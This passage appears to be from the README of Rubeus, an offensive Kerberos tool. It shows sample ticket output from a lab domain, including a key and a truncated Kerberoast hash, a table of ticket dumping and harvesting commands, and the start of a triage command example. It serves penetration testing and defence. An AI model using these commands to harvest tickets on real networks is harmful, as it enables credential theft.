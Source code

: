     UserName              :  harmj0y
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  asdf/asdfasdf
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/20/2019 8:58:14 AM
    EndTime               :  2/20/2019 12:41:09 PM
    RenewTill             :  2/27/2019 7:41:09 AM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  WqGWK4htp7rM1CURpxjMPA==
    Kerberoast Hash       :  $krb5tgs$23$*USER$DOMAIN$asdf/asdfasdf*$DEB467BF9C9023E...(snip)...


## Ticket Extraction and Harvesting

Breakdown of the ticket extraction/harvesting commands:

| Command     | Description |
| ----------- | ----------- |
| [triage](#triage) | LUID, username, service target, ticket expiration |
| [klist](#klist) | Detailed logon session and ticket info |
| [dump](#dump) | Detailed logon session and ticket data |
| [tgtdeleg](#tgtdeleg) | Retrieve usable TGT for non-elevated user |
| [monitor](#monitor) | Monitor logon events and dump new tickets |
| [harvest](#harvest) | Same as monitor but with auto-renewal functionality|

**Note:** [triage](#triage)/[klist](#klist)/[dump](#dump) give increasing amounts of ticket detail.


### triage

The **triage** action will output a table of the current user's Kerberos tickets, if not elevated. If run from an elevated context, a table describing all Kerberos tickets on the system is displayed. Ticket can be filtered for a specific service with `/service:SNAME`.

If elevated, tickets can be filtered for a specific LogonID with `/luid:0xA..` or a specific user with `/user:USER`. This can be useful when triaging systems with a lot of Kerberos tickets.

Triage all enumerateable tickets (non-elevated):

    C:\Rubeus>Rubeus.exe triage

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
